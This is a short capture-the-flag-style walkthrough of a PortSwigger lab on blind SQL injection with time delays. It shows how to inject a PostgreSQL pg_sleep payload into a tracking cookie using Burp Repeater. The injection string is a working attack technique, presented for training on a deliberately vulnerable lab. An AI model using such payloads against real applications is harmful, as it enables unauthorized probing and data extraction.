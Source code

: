 # Blind SQL injection with time delays

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

## The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a 10 second delay

___

#blind_sql #time_delay 

step 1

go to proxy => http history => select any Request => then send to repeater

![screnshot](images/lab14_1.jpg)

step 2

add `'||pg_sleep(10)--`
```sql
TrackingId=H6PEjxCz0hhaCVYE'||pg_sleep(10)--
```

![screnshot](images/lab14_2.jpg)

step 3

Reload page to solve the lab

![screnshot](images/lab14_3.jpg)